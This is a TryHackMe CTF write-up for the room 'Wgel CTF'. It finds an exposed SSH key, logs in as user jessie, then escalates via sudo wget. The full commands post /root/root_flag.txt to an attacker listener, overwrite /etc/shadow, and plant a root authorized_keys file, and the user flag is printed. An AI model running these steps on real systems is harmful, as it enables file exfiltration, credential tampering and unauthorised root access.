 ```yaml
---
title: 'Wgel CTF'
description: 'Enumeration and privilege escalation through wget with sudo permissions'
pubDate: 2023-09-14
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png'
---
```


Feroxbuster finds the path `/sitemap/`.

Doing a dirbuster on `/sitemap` we find `sitemap/.ssh/id_rsa`

```bash
gobuster dir -u http://10.10.121.104/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50
...[snip]...
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.121.104/sitemap/.ssh/]
...[snip]...
```

We have an SSH key but no username (yet).

On the source of the homepage there is a comment (`view-source:http://10.10.121.104/`).

```html
 <!-- Jessie don't forget to udate the webiste -->
```

## USER

```bash
ssh -i id_rsa.key jessie@10.10.121.104
```

The user flag is in `~/Documents/user_flag.txt` (`057c67131c3d5e42dd5cd3075b198ff6`).

## ROOT

Running `sudo -l` shows we can run `(root) NOPASSWD: /usr/bin/wget` as root.

Getting the root flag:

Local:
```bash
nc -lvnp 4444
```

Remote:
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.8.119.137:4444
```

### Overwrite /etc/shadow

```bash
openssl passwd -6 -salt 'salt' 'password'
$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.
```

Copy this in the shadow file and overwrite the shadow file on the remote machine.

Local:
```bash
python3 -m http.server
```

Remote:
```bash
sudo /usr/bin/wget http://10.8.119.137:8000/shadow -O /etc/shadow
```

Switch to root:
```bash
su root # <-- password
```

## Create an authorized_keys file

Local:
```bash
python3 -m http.server
```

`authorized_keys` file:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaa6N4G/cwRAUJ6XzK+OAPPTrr7wbPRbvYcnm28bxuPsvPfzSb4lgCq7LfSVKnmMf9uFy9guwr5P3MR3MeaMoO1k3ZxiDAfDR0Np1JdYV/1baBzfFbr2+OQcsmz6VCLRsQm+qkJnWsUVKlXQ6NVhHFDgp8BrAGwIbqUDsY7u8tk9GIqw/LiWDZK1dBi5nRxS/HxSSGmDFbL8471x4w2id1TrWTIdp8qhsk/s/LlCcftw/+myv4nkz99UGgo9w9drvWYD9lSKiKYKEE9X+L/TNrQXNW4ll2dI+1LsvM+NgWrGeb8Edaj8uaWfgUvMtvVPfWk6hO1Mq5RBbEd/tw3y/p jessie@CorpOne
```

Remote:
```bash
sudo /usr/bin/wget http://10.8.119.137:8000/authorized_keys --directory-prefix=/root/.ssh/
```

Login as root:
```bash
ssh -i id_rsa.key root@10.10.121.104
```
